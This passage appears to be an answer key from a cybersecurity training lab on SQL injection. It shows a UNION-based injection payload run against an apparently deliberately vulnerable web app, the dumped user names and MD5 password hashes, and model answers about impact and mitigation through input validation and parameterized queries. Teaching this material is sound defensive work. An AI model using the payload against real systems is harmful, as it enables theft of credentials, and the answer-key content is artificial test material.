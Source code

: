        ```
        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: admin
        Surname: admin

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: adminadmin
        Surname: 5f4dcc3b5aa765d61d8327deb882cf99

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: GordonBrown
        Surname: 575e22bc356137a41abdef379b776dba

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: HackMe
        Surname: 97b9308f6a1f6a8524a91450dca473fa

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: PabloPicasso
        Surname: 8c7c9b1149e9de712b9e5abab45d700c

        ID:  1' UNION select concat(first_name,last_name), password from users where '1' = '1
        First name: BobSmith
        Surname: 4a02ce029a840716c61ee8fcda10158e`
       ```

    - This matches the results on DB Fiddle:

      | first_name   | last_name                        |
      | ------------ | -------------------------------- |
      | admin        | admin                            |
      | adminadmin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
      | gordonbrown  | 575e22bc356137a41abdef379b776dba |
      | hackme       | 97b9308f6a1f6a8524a91450dca473fa |
      | pablopicasso | 8c7c9b1149e9de712b9e5abab45d700c |
      | bobsmith     | 4a02ce029a840716c61ee8fcda10158e |

6. Answer the following mitigation strategy questions: 

    - After testing and confirming that this web application is vulnerable to SQL injection, provide a summary for your manager of the potential impacts if a malicious actor attempts SQL injection on this web application.

      - **Solution**: There are many acceptable answers, because a variety of malicious payloads can be exploited. Impacts could include leak of confidential data like passwords, hashes, and deletion or modification of confidential data.

    - Based on the malicious payloads you created, recommend a mitigation strategy to the team that built this web application, to prevent a malicious user from inputting malicious payloads. 

      - **Solution**: There are many acceptable answers, all involving input validation.
      
        - Possible answers include server-side validation to only allow numerical single values as inputs and parameterized database queries that restrict input from the user.
